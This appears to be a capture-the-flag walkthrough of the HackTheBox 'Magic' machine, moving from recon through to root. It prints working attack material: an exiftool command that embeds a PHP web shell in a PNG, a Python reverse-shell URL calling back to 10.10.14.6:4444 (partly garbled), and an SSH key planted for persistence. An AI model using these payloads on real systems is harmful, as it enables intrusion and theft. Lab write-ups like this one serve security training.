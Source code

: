# Recon
```
sudo nmap -sV -p- -sC -oN nmap.txt -O 10.10.10.185 -T5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/1.png">

We discover two open ports and see that the target is running Linux. Browsing to the webserver on port 80 shows us an image upload page. We can try to gain initial foothold by uploading a reverse script. This will bropably be blocked by a filter but we can try to bypass this.

# Enumeration
We find a link to a login page. Let's first try to run gobuster in an attempt to find folders and files which could lead us to usernames and other info. We also check to see if there's a robots.txt file which can contain usefull folders.

We'll run two gobuster scans. One for file discovery and one for folders.
```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://10.10.10.185 -x txt
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.185
```
Other than three folders (```/assets /images /server-status```) we don't find anything interesting.

Because we will probably try to upload shell code to our target for initial access it is important to know where the files will be uploaded. Therefor we will run another gobuster scan on the ```/images``` directory.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/8.png">

We've found an ```/uploads``` folder. This might be usefull later on.

# Initial Foothold
 Next we'll try some default usernames and passwords but without any luck. One thing we didn't try was if we could use SQL injection to bypass the login screen. That seems to work as we are now logged in and able to upload images.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/2.png">

There is a filter blocking other filetypes than JPG, JPEG and PNG files. Let's fire up BurSuite to see if we can intercept the request and change it to our liking. Let's rename a JPEG file to .jpeg.php and intercept the request. We did the exact same thing eralier on the Popcorn box.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/4.png">

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/3.png">

That didn't seem to work because there is another filter blocking our attempt. This will probably be a check for file signatures. These signatures are known as magic numbers or Magic Bytes. For PNG files these are ```89 50 4E 47 0D 0A 1A 0A```. We can however add some code to a genuine PNG file in an attempt to bypass this signature filter.

We well use ```exiftools``` for this:
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.php.png 
```
The file was successfully uploaded. We can now try to see if we can run commands by browsing to it's location and a simple ```list``` command. We know this locations because of the earlier found ```/uploads``` directory.

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=ls
```

That worked!

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/5.png">

We can now alter the command to spawn a reverse shell. We'll use the code from the PayloadAllTheThings repo. https://github.com/swisskyrepo/PayloadsAllTheThings

```
http://10.10.10.185/images/uploads/exploit.php.png?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444))](http://10.10.10.185/images/uploads/exploit.php.png?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.6%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)
```
With our listener ready on port 4444 we now have a low priviliged reverse shell:

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/6.png">

# Lateral Movement
We spawn a TTY shell using Python3:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

Press ctrl+z key combination 

stty raw -echo; fg
``` 

We'll look around for files with SUID set, crontab jobs, kernel version, running processes but nothing stands out here. While looking around our webserver folders we discover a file containing database login credentials.

```
/var/www/Magic/db.php5
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/7.png">

We can try to connect to the MySQL database using ```mysql``` but it isn't installed on the target. Another tool we can use is ```mysqldump```, which is installed.

Running the following code will iterate the tables in the database. We run into an access denied error but are able to view the content of the login table. This contains a password. We try if this is the password for the theseus account which seems to be the case.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/10.png">

```
su theseus
```
We are now able to grab the user.txt file in the homefolder of theseus.


# Persistent Access
For a more persistent access to the target we'll setup SSH by making a RSA keypair. On attacking machine:
```
ssh-keygen
mv id_rsa.pub authorized_keys
python -m SimpleHTTPServer 8000
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/11.png">

Now download the keys on the target:
```
wget http://10.10.14.6:8000/authorized_keys
```
<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/12.png">

We have now added our public key to the authorized_Keys of ```theseus``` and are able to connect with SSH to our target.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/13.png">

# Privilege Escalation
We'll now repeat our previous steps to discover anything usefull. We find an interesting binary that has the SUID set.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/14.png">

Running ```strings``` on the binary shows us that ```lhsw``` and ```fdisk``` are being run. We can change the execute path of the binary and create one of our one to get a shell with root privileges.

<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/15.png">



<img src="https://raw.githubusercontent.com/vbrunschot/Write-Ups/main/HackTheBox/Magic/assets/16.png">




